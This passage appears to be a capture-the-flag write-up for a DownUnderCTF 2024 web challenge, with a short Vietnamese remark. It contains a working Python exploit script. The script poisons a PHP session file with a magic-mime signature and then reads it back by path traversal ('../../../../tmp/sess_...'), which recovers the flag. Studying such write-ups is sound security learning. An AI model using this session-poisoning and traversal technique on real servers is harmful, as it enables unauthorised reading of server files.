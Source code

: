 Payload: 
```python=
import requests
import urllib.parse

target = 'https://web-sniffy-d9920bbcf9df.2024.ductf.dev'
s = requests.Session()

# excerpt from php / magic.mime
'''
#audio/x-protracker-module
#>0	string	>\0		Title: "%s"
1080	string	M!K!		audio/x-mod
#audio/x-protracker-module
#>0	string	>\0		Title: "%s"
1080	string	FLT4		audio/x-mod
#audio/x-startracker-module
#>0	string	>\0		Title: "%s"
1080	string	FLT8		audio/x-mod
#audio/x-startracker-module
#>0	string	>\0		Title: "%s"
1080	string	4CHN		audio/x-mod
#audio/x-fasttracker-module
#>0	string	>\0		Title: "%s"
1080	string	6CHN		audio/x-mod
#audio/x-fasttracker-module
#>0	string	>\0		Title: "%s"
1080	string	8CHN		audio/x-mod
#audio/x-fasttracker-module
#>0	string	>\0		Title: "%s"
1080	string	CD81		audio/x-mod
'''
for i in range(990, 1080):
    r = i*b'A' + b"8CHN"
    d = s.get(f"{target}/?theme={urllib.parse.quote(r)}")
    d = s.get(f"{target}/audio.php?f=../../../../tmp/sess_{s.cookies.get('PHPSESSID')}")
    if d.status_code != 403:
        print(d.status_code, d.text)
        break
```


![image](https://hackmd.io/_uploads/HyCEUZcDR.png)

Flag: `DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}`

P/s: Lúc đầu mình thấy đoạn payload là ?theme[0]=stuff, mình tưởng là thứ gì đặc biệt nhưng mà bỏ đi cũng không sao. Bản chất nó chỉ là sao cho byte thứ xxx đấy nó là đoạn string trong file magic.mime kia cho nên khá nhiều đoạn string sẽ sử dụng được như `8CHN`, `6CHN`, `4CHN`.

# co2v2
